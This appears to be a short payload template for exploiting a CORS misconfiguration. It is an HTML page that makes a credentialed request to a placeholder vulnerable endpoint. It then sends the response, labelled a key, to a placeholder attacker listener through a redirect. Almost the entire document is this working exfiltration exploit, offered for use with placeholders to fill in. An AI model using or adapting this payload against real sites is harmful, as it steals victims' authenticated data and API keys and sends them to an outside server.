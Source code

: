 
`{ENDPOINT}` - Vulnerable endpoint address<br>
`{MyServer}` - Collaborator/Listener address

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var req = new XMLHttpRequest();
        req.onload = reqListener;
        req.open('get','{ENDPOINT}',true);
        req.withCredentials = true;
        req.send();

        function reqListener() {
        location='{My_Server}/exploit?key='+this.responseText;
};
      }
      submitRequest();
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>
```
